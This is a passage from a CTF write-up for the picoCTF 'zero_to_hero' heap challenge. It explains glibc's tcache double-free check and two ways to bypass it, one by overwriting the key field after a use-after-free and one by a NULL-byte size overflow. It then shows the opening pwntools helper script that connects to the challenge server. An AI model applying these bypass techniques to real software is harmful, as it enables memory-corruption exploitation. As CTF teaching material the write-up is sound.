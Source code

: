 At [2], we see that it first checks to see whether the tcache chunk's `key` field (again, essentially its `bk` pointer) is equal to the address of the `tcache_perthread_struct` on the heap. If it is, then it starts going through this tcache chunk's corresponding tcache bin.

If it finds this chunk already in that tcache bin, then it will error out and call `malloc_printerr` and output `free(): double free detected in tcache 2`.

Therefore we have the following condition: if the chunk we are freeing has its `bk` pointer field set to the address of the tcache bin ***AND*** it is also in its corresponding tcache bin, then we have a double free occurring.

Knowing all this, we can double free in the following two ways:

1. Free the chunk, then use a UAF to overwrite `chunk->key` to any other value, and we will be able to free it again.

2. Free the chunk into one tcache bin, then change its size. You can immediately free it again and put it into a different tcache bin. You can then get the chunk back from the old tcache bin (prior to its size change) and immediately free it again due to the `e->key` field being nulled out. Now the new (second) tcache bin will have a double freed chunk in it.

For this challenge, we utilize the single NULL byte overflow to do it the second way.

#### Exploitation steps

First, as usual, we create our helper functions as follows:
```python
#!/usr/bin/env python2

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'new-window']

BINARY = './zero_to_hero'
HOST, PORT = '2019shell1.picoctf.com', 49929

elf = ELF(BINARY)
libc = ELF('./libc-2.29.so')

def debug(breakpoints):
    script = ""
    for bp in breakpoints:
        script += "b *0x%x\n"%(bp)
    gdb.attach(p,gdbscript=script)

# Application logic

def initialize(answer):
    p.recv()
    p.send(answer)

def add(size, content):
    p.sendlineafter('> ', '1')
    p.sendlineafter('> ', str(size))
    p.sendafter('> ', content)

def free(idx):
    p.sendlineafter('> ', '2')
    p.sendlineafter('> ', str(idx))

def start():
    if not args.REMOTE:
        return process(BINARY)
    else:
        return remote(HOST, PORT)

```